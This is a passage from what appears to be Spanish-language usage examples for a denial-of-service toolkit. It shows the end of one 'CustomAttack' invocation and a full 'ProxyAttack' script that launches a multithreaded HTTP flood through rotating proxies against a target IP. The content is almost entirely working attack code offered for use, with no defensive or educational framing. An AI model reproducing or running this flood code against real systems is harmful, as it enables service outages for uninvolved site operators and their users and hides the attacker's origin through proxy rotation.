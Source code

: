 ```python
if __name__ == '__main__':
    attack = CustomAttack('192.168.1.1', 80, 50, 120)
    attack.run()
```

### Ejemplo 2: Ataque con Rotación de Proxies

```python
#!/usr/bin/env python3
from python.core.http_flood import HTTPFlood
from python.core.utils_proxy import ProxyUtils
import threading

class ProxyAttack:
    def __init__(self, target, port, proxies):
        self.target = target
        self.port = port
        self.proxy_utils = ProxyUtils()
        
        for proxy in proxies:
            self.proxy_utils.add_proxy(proxy)

    def attack_with_proxy(self, worker_id):
        proxy = self.proxy_utils.get_random_proxy()
        print(f"[*] Worker {worker_id} usando proxy: {proxy}")
        
        flood = HTTPFlood(self.target, self.port)
        for i in range(100):
            try:
                flood.send_request()
            except Exception as e:
                print(f"[-] Error: {e}")

    def run(self, threads=10):
        thread_list = []
        for i in range(threads):
            t = threading.Thread(target=self.attack_with_proxy, args=(i,))
            thread_list.append(t)
            t.start()
        
        for t in thread_list:
            t.join()

# Uso
if __name__ == '__main__':
    proxies = [
        'http://proxy1.com:8080',
        'http://proxy2.com:8080',
        'http://proxy3.com:8080',
    ]
    
    attack = ProxyAttack('192.168.1.1', 80, proxies)
    attack.run(threads=20)
```
